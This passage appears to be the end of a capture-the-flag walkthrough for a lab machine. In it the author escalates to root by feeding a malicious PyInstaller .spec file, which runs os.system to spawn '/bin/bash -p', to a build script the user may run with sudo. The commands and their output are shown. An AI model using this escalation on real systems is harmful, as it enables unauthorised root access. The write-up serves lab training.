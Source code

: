 ```bash
    /usr/bin/rm -r /opt/shared/build /opt/shared/dist 2>/dev/null
    /root/.local/bin/pyinstaller -F --name "qreader" $name --specpath /tmp
   /usr/bin/mv ./dist ./build /opt/shared
  else
    echo "Invalid file format"
    exit 1;
  fi
elif [[ $action == 'cleanup' ]]; then
  /usr/bin/rm -r ./build ./dist 2>/dev/null
  /usr/bin/rm -r /opt/shared/build /opt/shared/dist 2>/dev/null
  /usr/bin/rm /tmp/qreader* 2>/dev/null
else
  /usr/bin/echo 'Invalid action'
  exit 1;
fi
```

The script was running [PyInstaller](https://pyinstaller.org/en/stable/) on a file that I had to provide. PyInstaller appears to bundle Python applications in a package. I did not know anything about it, but I thought it might execute so Python code. I created a simple file to test it.

```bash
tkeller@socket:~$ cat test.spec
import os
os.system('touch /tmp/pwn')
```

I passed the file as an argument to the script.

```bash
keller@socket:~$ sudo /usr/local/sbin/build-installer.sh build test.spec
121 INFO: PyInstaller: 5.6.2
121 INFO: Python: 3.10.6
124 INFO: Platform: Linux-5.15.0-67-generic-x86_64-with-glibc2.35
127 INFO: UPX is not available.

tkeller@socket:~$ ls -l /tmp/pwn
-rw-r--r-- 1 root root 0 Apr 30 13:19 /tmp/pwn
```

It had created the file as root. That meant I had code execution. I changed my Python script to launch bash and ran the installer again to get root.

```bash
tkeller@socket:~$ cat test.spec
import os
os.system('/bin/bash -p')

tkeller@socket:~$ sudo /usr/local/sbin/build-installer.sh build test.spec
121 INFO: PyInstaller: 5.6.2
121 INFO: Python: 3.10.6
124 INFO: Platform: Linux-5.15.0-67-generic-x86_64-with-glibc2.35
129 INFO: UPX is not available.

root@socket:/home/tkeller# cd /root

root@socket:~# cat root.txt
REDACTED
```
